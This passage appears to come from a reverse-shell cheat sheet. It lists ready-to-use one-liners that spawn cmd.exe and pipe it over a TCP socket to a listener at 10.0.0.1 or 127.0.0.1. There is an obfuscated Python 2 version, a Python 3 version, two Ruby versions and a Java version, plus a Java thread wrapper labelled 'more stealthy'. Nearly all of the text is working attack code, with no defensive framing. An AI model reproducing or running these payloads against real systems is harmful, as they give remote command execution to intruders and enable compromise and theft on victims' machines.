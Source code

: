 ```powershell
python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```
Python3:
```powershell
python.exe -c "import socket,os,threading,subprocess as sp;p=sp.Popen(['cmd.exe'],stdin=sp.PIPE,stdout=sp.PIPE,stderr=sp.STDOUT);s=socket.socket();s.connect(('10.0.0.1',4242));threading.Thread(target=exec,args=(\"while(True):o=os.read(p.stdout.fileno(),1024);s.send(o)\",globals()),daemon=True).start();threading.Thread(target=exec,args=(\"while(True):i=s.recv(1024);os.write(p.stdin.fileno(),i)\",globals())).start()"
```
## Ruby
```ruby
ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

# To confirm on windows: 
ruby -rsocket -e'exit if fork;c=TCPSocket.new("10.0.0.1","4242");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'
```
## Java
```java
String host="127.0.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
### Java Alternative
**NOTE**: This is more stealthy
```java
Thread thread = new Thread(){
    public void run(){
        // Reverse shell here
    }
}
thread.start();
```

[DC01]: PS>
